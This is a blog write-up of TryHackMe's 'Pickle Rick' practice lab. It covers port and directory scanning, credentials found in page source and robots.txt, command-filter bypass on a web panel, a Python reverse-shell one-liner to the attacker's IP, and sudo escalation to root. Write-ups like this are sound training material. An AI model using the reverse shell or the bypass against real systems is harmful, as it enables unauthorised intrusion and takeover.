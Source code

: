 ```yaml
---
layout: single
title:  "Pickle Rick Writeup - TryHackMe"
date:   2021-04-04 04:00:00 -0400
classes: wide
categories: THM
tags:
 - Privesc
---
```


This time i'll be working with the room [Pickle Rick](https://www.tryhackme.com/room/picklerick) from **TryHackMe**. This is a free lab with an easy difficulty.

## Lab info

![Lab Info](/images/THM/PickleRick/00-room-info.png){: .align-center}

## Enumeration

All ports nmap scan: ```nmap -p- -sS --min-rate 5000 -n -v 10.10.123.34 -oG allPorts.gnmap```

```bash
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.77 seconds
```

Basic enumeration scripts for ports 22,80: ```nmap -sC -sV -p22,80 10.10.123.34 -oN ports.nmap```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-04 13:30 -04
Nmap scan report for 10.10.123.34
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:c4:23:86:8e:70:33:66:18:f0:84:e8:6b:93:eb:bc (RSA)
|   256 a9:25:85:0b:08:8f:30:36:36:9a:b2:3b:d6:bf:d1:07 (ECDSA)
|_  256 38:d9:59:3b:50:cd:b6:de:8d:60:06:bf:46:1e:d5:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Finally let's run an http-enum script on port 80: ```nmap --script http-enum -p80 10.10.123.34 -oN webscan.nmap```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-04 13:31 -04
Nmap scan report for 10.10.123.34
Host is up (0.34s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum:
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file

Nmap done: 1 IP address (1 host up) scanned in 31.34 seconds
```

So, after all those scans we get:

* Webpage: http://10.10.123.34

![Web Page](/images/THM/PickleRick/15-web-page.png){: .align-center}

As a good habit, you may want to check the source code of the webpages.

![Web Page Source Code](/images/THM/PickleRick/21-username.png){: .align-center}

And just like that we get the username ```R1ckRul3s```

---

* Login: http://10.10.123.34/login.php

![Login Page](/images/THM/PickleRick/20-login-page.png){: .align-center}

---

* Robots file: http://10.10.123.34/robots.txt

![robots](/images/THM/PickleRick/24-robots-web.png){: .align-center}

In robots.txt we see ```Wubbalubbadubdub```, let's save it in case it's useful later. 

Just to be sure, now we will launch a gobuster directory scan in case nmap missed something. 

Gobuster scan: ```gobuster dir -u http://10.10.123.34 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 300 --no-error```

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.34
[+] Method:                  GET
[+] Threads:                 300
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/04 13:55:58 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.10.123.34/assets/]
/server-status        (Status: 403) [Size: 300]

===============================================================
2021/04/04 14:04:25 Finished
===============================================================
```

Gobuster will find ```/assets``` directory that does not contain anything interesting.


## Gainning access

Moving on to the login page, using the info gathered before, we could try to use ```R1ckRul3s``` as username and ```Wubbalubbadubdub``` as password... and it actually works.

The next we will see is a Command Panel and an input to execute commands.

![Command Panel](/images/THM/PickleRick/26-command-panel.png){: .align-center}

If we try to navigate to another tab, we get the message: *Only the **REAL** rick can view this page...*

![Denied](/images/THM/PickleRick/33-denied.png){: .align-center}

So, back to the Command Panel, let's assume we could execute system commands and try some.

![whoami](/images/THM/PickleRick/27-command-whoami.png){: .align-center}

![ls](/images/THM/PickleRick/30-command-panel-ls.png){: .align-center}

Executing ```cat Sup3rS3cretPickl3Ingred.txt``` the following message will show up. 

![cat](/images/THM/PickleRick/28-command-cat.png){: .align-center}

Now we know some commands are being blocked, but ```less``` is not one of them. 

![First Flag](/images/THM/PickleRick/29-first-ing.png){: .align-center}

**First Ingredient:** ```mr. m*******```

## Getting a shell

For the reverse shell, first we want to make sure the command we are going to use exist in the system and is allowed. Trying python gets no results but python3 will do the trick. 

Using this [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) as a reference, we craft the following command:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.0.103",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Now, we open a listener on port 443 with netcat and execute our command to get the shell.

![Shell](/images/THM/PickleRick/34-first-shell.png){: .align-center}

## Privilege Escalation

This is the easiest part, the first thing we could do is check the ```www-data``` user privileges with ```sudo -l```. We will find out that we can execute command as root without providing password.

So we make ```sudo su``` to become root user.

![Privesc](/images/THM/PickleRick/37-privesc.png){: .align-center}

The last thing would be locating the other two ingredients. If we check the  ```/home``` path we will see rick directory inside.

![Second Flag](/images/THM/PickleRick/35-second-ing.png){: .align-center}

**Second Ingredient:** ```1 je*******```

And the last ingredient could be found in the home directory for root or using the find command.

```bash
find / -type f -name "*.txt" | grep -v "usr"
```
![Third Flag](/images/THM/PickleRick/40-third-ing.png){: .align-center}

**Third Ingredient:** ```fle*******```

And that's all for this lab.